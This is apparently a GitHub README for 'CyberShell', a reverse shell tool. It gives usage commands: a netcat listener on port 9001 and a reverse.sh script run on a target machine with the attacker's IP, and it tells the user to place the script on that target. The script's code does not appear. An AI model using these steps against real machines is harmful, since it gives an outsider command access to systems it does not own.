 # 🚀 CyberShell: A Powerful Reverse Shell Tool

**CyberShell** is a cutting-edge reverse shell tool designed for cybersecurity professionals, penetration testers, and developers. It allows you to remotely execute commands on a target machine, making it an essential tool for both offensive and defensive security operations.

---

## 🌟 Features

- **Remote Command Execution**: Execute commands on a remote machine seamlessly.
- **Cross-Platform Support**: Works on Windows, Linux, and macOS.
- **Lightweight and Fast**: Minimal resource usage for efficient operations.
- **Customizable**: Easily modify the code to fit your specific needs.
- **Educational**: Perfect for learning about networking and cybersecurity.

---

## 🛠️ Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Midohajhouj/CyberShell.git
   cd CyberShell
   ```

2. put the script on target machine

    
## 🚦 Usage

1. Start the listener on your machine:
   ```bash
   nc -lvnp 9001
   ```

2. Execute the reverse shell script on the target machine:
   ```bash
   ./reverse.sh <your-ip> 9001
   ```

3. Enjoy remote command execution!

---

## 📜 License

This project is licensed under the MIT License. See the LICENSE file for details.

---

## 🤝 Contributing

Contributions are welcome! Please read the CONTRIBUTING.md file for guidelines.

---

## 🙏 Acknowledgments

- Inspired by various cybersecurity tools and techniques.
- Thanks to the open-source community for their contributions.

--- 

#### *<p align="center"> Developed by <a href="https://github.com/Midohajhouj">LIONMAD</a> </p>*

